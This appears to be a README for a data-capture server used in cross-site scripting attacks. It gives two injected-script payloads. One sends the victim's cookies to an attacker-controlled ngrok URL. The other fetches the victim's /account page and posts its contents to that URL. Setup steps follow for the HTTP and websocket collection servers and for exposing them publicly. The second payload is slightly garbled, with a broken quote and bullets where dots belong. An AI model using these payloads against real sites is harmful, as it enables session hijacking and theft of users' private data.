 ## info
http server capture user data by either sending the data in a query or in the body.

#### Capture user cookies ####

```js
  <script>
      fetch(`https://NGROK-URL?cookie=${encodeURIComponent(document.cookie)}`)
  </script>
```

#### Capture protected page or data ####
```js
  <script>
      fetch('/account)
          • then(p => p.text())
          • then(t =>
          fetch('https://NGROK-URL', {
            method: "POST",
            headers: { 'Content-Type':'application/json' },
            body: JSON.stringify({p:t})
          })
         ) 
  </script>
```
_____________________________

### Running the servers

The first step is to install depencencies:

```bash
npm install
```

Then you can run the regular HTTP server (CORS enabled):

```bash
npm run http
```

Or the websocket server:

```bash
npm run ws
```

_____________________________

### HTTPS/WSS/External access

You can use ngrok to connect via HTTPS, WSS or externally without changing any configuration.
https://dashboard.ngrok.com/get-started

Once it's installed, you can then expose the HTTP server:

```bash
ngrok http 8000
```

Or the Websocket server:

```bash
ngrok http 8080
```

_Just use wss://NGROK_URL  instead of https://NGROK_URL for wss connections_
<br>
if you dont want to use ngrok you can host them on heroku or vercel but insted of console.log write to a log file 
